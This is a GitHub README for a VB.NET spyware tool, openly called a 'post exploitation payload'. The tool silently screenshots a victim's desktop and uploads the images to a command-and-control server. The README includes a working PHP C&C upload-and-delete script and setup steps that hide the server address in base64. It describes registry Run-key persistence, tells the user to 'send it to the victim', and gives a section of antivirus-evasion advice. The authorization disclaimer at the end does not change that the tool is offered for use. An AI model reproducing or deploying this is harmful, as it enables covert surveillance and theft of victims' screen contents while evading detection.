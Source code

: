[![forthebadge](https://forthebadge.com/images/badges/built-with-swag.svg)](https://forthebadge.com)

<p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Payload | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs and Less Detection ;)
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and the edit below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```
 - and edit this variable below as well
```
Dim php As String = "yourphpfilename.php?" & "folder="
```
 - Just compile it and send it to the victim thats all !!
 
 ## Million Dollar Advice ;)
 To Avoid Antivirus Detection
 
 - Change the app icon
 - Generate new GUID 
 - Changes all the variables
 - Obfuscate the code using [Obfuscar](https://github.com/obfuscar/obfuscar)
 - Change the Assembly information 
 
 ## Donation:
 If this tool has been useful for you, feel free to thank me by buying me a coffee :)

[![N|Solid](https://i.ibb.co/Sym2mzn/buymeacoffee.png)](https://www.buymeacoffee.com/ahmadchenwangxuesi) 
 
 ## Disclaimer:
**This tool is supposed to be used only on authorized systems. Any unauthorized use of this tool without explicit permission is illegal.**

## License:
 [**GNU GENERAL PUBLIC LICENSE**](https://github.com/ProjectorBUg/Mr.Link/blob/master/LICENSE) 
 
 
